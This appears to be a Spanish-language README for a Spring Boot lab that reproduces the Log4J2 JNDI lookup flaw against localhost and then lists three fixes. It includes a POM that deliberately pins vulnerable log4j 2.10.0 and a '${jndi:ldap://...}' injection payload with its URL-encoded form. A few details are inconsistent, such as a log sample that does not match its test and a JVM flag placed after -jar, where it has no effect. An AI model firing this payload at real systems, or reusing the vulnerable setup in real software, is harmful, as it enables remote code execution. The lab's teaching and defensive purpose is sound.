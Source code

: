 # Log4J2 Vulnerability and Spring Boot

Según el comunicado oficial:

Spring Boot users are only affected by this vulnerability if they have 
switched the default logging system to Log4J2. The log4j-to-slf4j and 
log4j-api jars that we include in spring-boot-starter-logging cannot be 
exploited on their own. Only applications using log4j-core and including 
user input in log messages are vulnerable.

[Log4J2 vulnerability Springboot](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot)

# Como reproducir la vulnerabilidad

Dentro del POM excluir el loggin default mediante la siguiente configuración en el POM
```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.10.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.10.0</version>
</dependency>
```
### Prueba sin incidentes
El aplicativo cuenta con un método GET que recibe un parámetro el cual se escribe en log mediante LogManager.  
Para probar, ejecutar el siguiente método en algun navegador o herramienta de peticiones REST.  
GET  
http://localhost:8080/vuln&input=HolaMundo

El resultado es la escritura de "HolaMundo" dentro del log de forma normal.

```
INFO 86203 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : FrameworkServlet 'dispatcherServlet': initialization started
INFO 86203 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : FrameworkServlet 'dispatcherServlet': initialization completed in 12 ms
INFO 86203 --- [nio-8080-exec-1] c.e.v.VulnController                     : Input: ${jndi:ldap://127.0.0.1:3089/}
```

### Prueba con instrucción JNDI

Necesitamos generar una instrucción de consulta JNDI, en este ejemplo se intenta una conexión a LDAP.  
```
${jndi:ldap://127.0.0.1:3089/}
```

Para enviar esta instrucción mediante el método GET la normalizamos mediante algún servicio de encoder  
https://www.urlencoder.org/

URL Encode:
%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%2F%7D

Ejecutamos la misma consulta del ejercicio pasado y veremos como se lanza una consulta JNDI en lugar 
de solo pintar en log.  
GET  
http://localhost:8080/vuln&input=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%2F%7D

```
INFO 86256 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : FrameworkServlet 'dispatcherServlet': initialization started
INFO 86256 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : FrameworkServlet 'dispatcherServlet': initialization completed in 13 ms
http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1:3089/]. javax.naming.CommunicationException: 127.0.0.1:3089 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:244)
```

### Corrección de vulnerabilidad

#### Método 1:

Basta agregar la siguiente línea de configuración a la JVM.
```
java -jar [app.jar] -Dlog4j2.formatMsgNoLookups=true
```
**Nota:** se tiene que agregar al momento de invocar la JVM, de nada sirve agregarlo al application.properties.  

#### Método 2:
Utilizar la librería propia de Springboot sin la exclusión mencionada al inicio  
```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.10.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.10.0</version>
</dependency>
```  
**Nota:** Aunque tengamos la siguiente estructura, sino especificamos la exclusión, no importa que esten especificadas
las dependencias de log4j, Springboot las va a ignorar y no tendremos la vulnerabilidad.  

#### Método 3:
Hacer el upgrade de log4j a la versión 2.16 que soluciona este incidente.  
```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.16.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.16.0</version>
</dependency>
```

## Contributors

Javier Rodríguez
